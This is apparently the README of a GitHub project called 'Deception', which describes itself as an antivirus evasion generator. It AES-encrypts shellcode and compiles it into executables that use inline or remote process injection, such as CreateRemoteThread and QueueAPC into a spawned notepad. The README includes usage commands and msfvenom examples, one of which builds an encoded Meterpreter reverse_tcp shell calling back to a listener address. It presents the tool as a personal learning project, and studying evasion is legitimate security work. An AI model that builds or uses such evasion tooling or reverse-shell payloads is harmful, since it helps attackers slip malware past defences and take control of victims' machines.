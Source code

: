 # Deception
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. Deception will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

<details>
<summary>Later versions will incorporate</summary>
Move Project to Visual Studio

More techniques
- Process Injection
- Process Hollow
- Thread Hijack
- ...

Misc
- PPID Spoofing
- BlockDlls
- Module Stomping
- ...

Do above techniques with
- both shellcode and dlls
- kernel32 and ntdll.dll (direct syscalls)
- In other languages (C++, Nim, ...)
</details>

### Usage
```
# Compile
sudo apt install mono-devel
mcs -out:Deception.exe -pkg:dotnet Utils/* Services/* Models/*  Modules/*  Deception.cs
# Run
./Deception.exe
```

#### Help Menu
```
Usage: 
  ./Deception.exe msf.bin -i       # for inline
  ./Deception.exe msf.bin -t       # for inline: CreateThread
  ./Deception.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./Deception.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./Deception.exe msf.bin -a       # makes all of the above
Payload Examples: 
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.0.1 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Usage](./Images/deception.png)

### Extras
<details>
<summary>Structure</summary>

Deception.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- DeceptionService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>